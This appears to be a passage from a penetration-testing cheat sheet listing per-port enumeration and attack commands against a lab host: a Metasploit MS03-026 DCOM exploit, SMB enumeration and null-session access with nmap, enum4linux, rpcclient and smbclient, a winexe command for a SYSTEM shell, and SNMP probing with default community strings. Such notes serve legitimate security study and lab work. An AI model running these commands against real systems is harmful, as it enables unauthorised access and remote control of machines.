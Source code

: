 Exploit:

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

### Port 139/445 - SMB

- Name:
- Version:
- Domain/workgroup name:
- Domain-sid:
- Allows unauthenticated login:


```
nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse 10.10.10.87 -p 445

enum4linux -a 10.10.10.87

rpcclient -U "" 10.10.10.87
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

smbclient -L 10.10.10.87
smbclient //10.10.10.87/tmp
smbclient \\\\10.10.10.87\\ipc$ -U john
smbclient //10.10.10.87/ipc$ -U john
smbclient //10.10.10.87/admin$ -U john

Log in with shell:
winexe -U username //10.10.10.87 "cmd.exe" --system

```

### Port 161/162 UDP - SNMP


```
nmap -vv -sV -sU -Pn -p 161,162 --script=snmp-netstat,snmp-processes 10.10.10.87
snmp-check -t 10.10.10.87 -c public
```

```
# Common community strings
public
private
community
```
